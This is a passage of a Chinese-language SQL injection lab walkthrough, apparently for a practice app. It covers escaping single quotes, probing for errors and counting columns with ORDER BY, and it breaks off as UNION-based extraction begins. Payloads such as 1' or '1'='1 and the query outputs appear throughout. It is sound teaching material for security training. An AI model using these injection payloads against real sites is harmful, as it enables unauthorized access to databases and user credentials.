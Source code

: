 

## §2.1 第1关 绕过`''`

我们以这行代码入手：

```php
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

显然，`$id`中若含有单引号便可实现逃逸的效果，比如最经典的`1' or '1'='1`。

了解后，我们假装不知道源代码，开始逐步构建payload，猜测语句结构。

首先试一下正常输入，均正常：

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=2		-- Login name: Angelina	Password: I-kill-you
id=1000		-- Login name: 			Password:
```

尝试单引号，报错；尝试两个单引号，正常。可以猜测语句中肯定包含单引号。同时`LIMIT`告诉我们最多输出一条结果。

```sql
id=1		-- Login name: Dumb		Password: Dumb
id=1'		-- You have an error in your SQL syntax; ... near ''1'' LIMIT 0,1' at line 1
id=1''		-- Login name: Dumb		Password: Dumb
```

知道语句包含单引号后，我们就可以猜测语句大概如下所示：

```sql
SELECT ? FROM ? WHERE ?='$id' LIMIT 0,1 ? ;
```

接下来使用`ORDER BY`爆列数，同时使用`--`注释掉`LIMIT`语句，得到列数为3：

```sql
id=1 ORDER BY 1 --  (一定要在--后面加空格,才能识别为有效的注释)
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 1 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 1;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 2 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 2 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 2;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 3 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 3 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 3;
			-- Login name: Dumb		Password: Dumb
id=1‘ ORDER BY 4 -- 
=> SELECT ? FROM ? WHERE ?='   1' ORDER BY 4 --   ' LIMIT 0,1 ? ;
=> SELECT ? FROM ? WHERE ?='1' ORDER BY 4;
			-- Unknown column '4' in 'order clause'
```

利用`SELECT 1,2,3`建一张列数同样为3的新表，使用`UNION`语句爆字段与列序的关系。虽然注释了`LIMIT`，但是前端始终只显示一条记录，因此我们还要在`WHERE`中设置一个自相矛盾的条件，来把正常的那条记录给干掉，只留下我们的创建的新表：
